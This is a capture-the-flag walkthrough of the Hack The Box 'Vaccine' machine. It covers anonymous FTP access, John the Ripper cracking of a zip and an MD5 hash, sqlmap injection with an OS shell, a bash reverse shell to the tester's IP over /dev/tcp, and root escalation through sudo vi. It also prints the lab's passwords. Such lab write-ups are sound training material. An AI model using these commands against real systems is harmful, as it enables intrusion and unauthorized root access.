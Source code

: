 # Vaccine HTB Writeup

Today we will be pwning the htb machine "vaccine." 
# Reconnaissance
Per usual, we will be running an nmap scan with the flag -sV to tell nmap to return information about the services running on the open ports it discovers.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_11_43_19.png?raw=true)

```bash
nmap -sV [machine-ip]
```
After running the nmap scan, we see that there is 3 open ports running on the machine. Them being an FTP server, an SSH server and an Apache webserver meaning this machine also has some form of website being hosted on it. From here we are going to attempt to login to the FTP server (file transfer protocol) as if it has been misconfigured we could potentially login without needing a password.

![So yeah dis it](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_11_56_37.png?raw=true)

```bash
ftp [target-ip]
```
Using the username `anonymous` we can successfully login to the server without needing any other credentials (see image).
By running the command `ls` (or `dir`) we can see the files and directories in our local directory. The only file returned by this command is named backup.zip so we download it with the command `get backup.zip`. From there, we can exit the ftp server

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_12_02_03.png?raw=true)
Now we can attempt to unzip this file with the command `unzip [file]`.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_12_03_29.png?raw=true)

The archive is protected by a password so we are prompted by unzip to enter the password for the file to allow us to extract its data. Unfortunately, we do not know this password. So we must go for a slightly different approach...

We will have to bruteforce the zip's password. To do this we will use the tool "John the Ripper
```
John the Ripper is an Open Source password security auditing and password recovery tool available for many operating systems. **John the Ripper jumbo** supports hundreds of hash and cipher types, including for: user passwords of Unix flavors (Linux, *BSD, Solaris, AIX, QNX, etc.), macOS, Windows, "web apps" (e.g., WordPress), groupware (e.g., Notes/Domino), and database servers (SQL, LDAP, etc.); network traffic captures (Windows network authentication, WiFi WPA-PSK, etc.); encrypted private keys (SSH, GnuPG, cryptocurrency wallets, etc.), filesystems and disks (macOS .dmg files and "sparse bundles", Windows BitLocker, etc.), archives (ZIP, RAR, 7z), and document files (PDF, Microsoft Office's, etc.) These are just some of the examples - there are many more.
```
To do this, we first must install john the ripper, if you are on Kali Linux then run `sudo apt install john -y`. If you are on another distro please refer to their [github page](https://github.com/openwall/john). 

Once you have installed John, use `zip2john` to convert the zip archive into a crack-able hash.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_12_07_57.png?raw=true)

```bash
zip2john backup.zip > hash
```
Please note for the next part you need to have the rockyou wordlist installed (check out https://github.com/danielmiessler/SecLists).
Now we'll type the following command to crack the password for the file (make sure to add the path to your wordlist): 
`john -wordlist=/path/to/the/wordlist/rockyou.txt hash`

This command will load the wordlist and attempt to bruteforce the zip archives' password (output shown in image is different to what you will see, its just because I've already cracked the pass). Then use the command `john --show hash` to view the cracked password. 

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_13_41_48.png?raw=true)

As you can see, the password for the zip archive is `741852963`, now we can unzip the file and check out its contents.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_13_46_07.png?raw=true)

After unzipping, we can see the zip was made out of an index.php file and a style.css file. Run `cat index.php` to view the file's contents.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_13_47_37.png?raw=true)

As you can see, the admin accounts credentials are stored at the top of the php file (`admin:2cb42f8734ea607eefed3b70af13bbd3`). However, the password seems to resemble some sort of hash, so we must crack it using John.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_13_50_18.png?raw=true)

The command `hashid [hash]` returns many potential types of hash it could be however we are going to try MD5 first as it is very commonly used.

First we've had to add the hash to a file using `echo '2cb42f8734ea607eefed3b70af13bbd3' > pass` and now we can get bruteforcing!

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_14_17_28.png?raw=true)
```bash
john --format=raw-md5 --wordlist=/path/to/wordlist/rockyou.txt filewithhash
```

Now, once John has finished bruteforcing, we can see that the password is `qwerty789`. From here, we will open the website being hosted on the machine in our browser, revealing a login page.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_14_19_43.png?raw=true)

By supplying the username and password we cracked, we can log in to the website and we are now logged in to an admin panel!

The dashboard seems to have nothing special in it except for a search bar which could potentially be linked to a database. When we search for something, the $search variable is used in the URL to fetch stuff from the database. This website may be vulnerable to SQL injection attacks. We could do this manually but why not use another little toy called SQLmap.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_14_25_17.png?raw=true)

Now, we must install SQLmap with the command
`sudo apt install sqlmap -y`
To test this website we need to give the following parameters - the url and the cookie (required for authentication)
To grab this coookie we must intercept any request from the website with BurpSuite, however you can also use the extension cookie-editor. For efficiency purposes, I will be using the extension in this case, you can install it [here](https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm) for Chrome and [here](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) for Firefox.

Now whilst on the dashboard, run the extension.
The format HTTP messages of requests are usually sent in this way:
`PHPSESSID=[cookie-from-ext]`
Now that we know the syntax, we can use SQLmap to find any SQL injection vulnerabilities. 

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_14_45_15.png?raw=true)

```bash
sqlmap -u 'http://[target-ip]/dashboard.php?search=query' --cookie="PHPSESSID=[your-cookie]"
```
Out of all this jumble, the most important thing to be able to quickly recognise vulnerabilities are the prompts, (answer yes to all). In this case, the prompt `GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)?  
[y/N]` simply tells us the website is vulnerable.

SQLmap confirmed that the target is vulnerable to SQL injectio. Now we will rerun SQLmap but with the  --os-shell flag, where we will be able  to perform command injection.

```bash
sqlmap -u 'http://[target-ip]/dashboard.php?search=query' --cookie="PHPSESSID=[your-cookie]" --os-shell
```
After running this command, please open up a new terminal tab and start a netcat listener with `sudo nc -lvnp 443`.
Then, on the terminal running SQLmap run the payload:
```bash
bash -c "bash -i >& /dev/tcp/[your-tun0-IP]/443 0>&1"
```
Now, go back listener and you should be connected to the machine!
The userflag is located in `/var/lib/postgresql/`:

```bash
your@terminal:~$ cd /var/lib/postgresql
your@terminal:~$ ls  
user.txt  
your@terminal:~$ cat user.txt
NO CHEATING, DO IT YOURSELF
your@terminal:~$
```

# Privilege Escalation 

We are currently the user `postgres`,  however we do not know the password for the account meaning we cannot execute commands that require root privileges.
Since the machine uses both PHP and SQL we could attempt to find the passwords in clear text. The first place to check is `/var/www/html`.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_07_15.png?raw=true)

Enter the directory and then run `grep "pass" dashboard.txt
By using grep, we can search the files in that directory for specific keywords. In this case, I used the keyword pass to find any occurrences of the word in `dashboard.php`. Fortunately, there was, and it is the password for the user (`P@s5w0rd!`) we are currently logged into (`postgres`). 
Due to the instability of the shell we are currently in, we will now login to the machine via SSH (using the password we found).

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_09_14.png?raw=true)

```ssh postgres@[target-ip]```

Now, we will type `sudo -l` again to see what privileges we have.

We have sudo privileges to edit the `pg_hba.conf` file using vi by running `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
To do this, we must first enter vi via
`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`.  This opens vi as root.

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_14_15.png?raw=true)

Now, type `:set shell=/bin/sh`

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_14_48.png?raw=true)

Now, we can type `:shell`, this command should then load a shell which if we run `whoami` tells us we are root!

![enter image description here](https://github.com/benjibrown/ctf-writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_16_15.png?raw=true)

Now, we have root but we do not know where the flag is stored. After a bit of digging, we find the flag to be stored in `/root`. Finally, cd into `/root` , run `ls` to show the files in the directory and run `cat root.txt`  to view the flag!
